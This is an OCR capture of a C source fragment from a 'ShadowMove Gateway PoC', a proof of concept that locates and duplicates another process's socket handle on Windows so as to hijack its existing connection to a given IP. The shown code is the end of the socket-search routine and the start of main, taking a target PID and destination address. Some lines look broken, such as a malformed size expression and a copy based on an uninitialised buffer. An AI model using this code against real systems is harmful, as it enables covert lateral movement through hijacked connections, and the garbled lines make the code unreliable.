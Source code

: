 ```c
						free(objectNameInfo);
						CloseHandle(dupHandle);
						continue;
					}

					// We got it?
					targetSocket = WSASocket(wsaProtocolInfo.iAddressFamily, wsaProtocolInfo.iSocketType, wsaProtocolInfo.iProtocol, &wsaProtocolInfo, 0, WSA_FLAG_OVERLAPPED);
					if (targetSocket != INVALID_SOCKET) {
						struct sockaddr_in sockaddr;
						DWORD len;
						len = sizeof(SOCKADDR_IN);

						// It this the socket?
						if (getpeername(targetSocket, (SOCKADDR*)&sockaddr, &len) == 0) {
							if (strcmp(inet_ntoa(sockaddr.sin_addr), dstIP) == 0) {
								printf("\t[*] Duplicated socket (%s)\n", inet_ntoa(sockaddr.sin_addr));
								free(needle);
								free(objectNameInfo);
								return targetSocket;
							}
						}

					}

					free(needle);
				}

			}
			free(objectNameInfo);

		}
	}

	return 0;
}


int main(int argc, char** argv) {
	WORD wVersionRequested;
	WSADATA wsaData;
	DWORD dwProcessId;
	LPWSTR dstIP = NULL;
	SOCKET targetSocket;
	char buff[255] = { 0 };

	printf("\t\t\t-=[ ShadowMove Gateway PoC ]=-\n\n");

	// smgateway.exe [PID] [IP dst]
	/* It's just a PoC, we do not validate the args. But at least check if number of args is right X) */
	if (argc != 3) {
		printf("[!] Error: syntax is %s [PID] [IP dst]\n", argv[0]);
		exit(-1);
	}
	dwProcessId = strtoul(argv[1], NULL, 10);
	dstIP = (LPSTR)malloc(strlen(argv[2]) * (char) + 1);
	memcpy(dstIP, argv[2], strlen(dstIP));


	// Classic
	wVersionRequested = MAKEWORD(2, 2);
```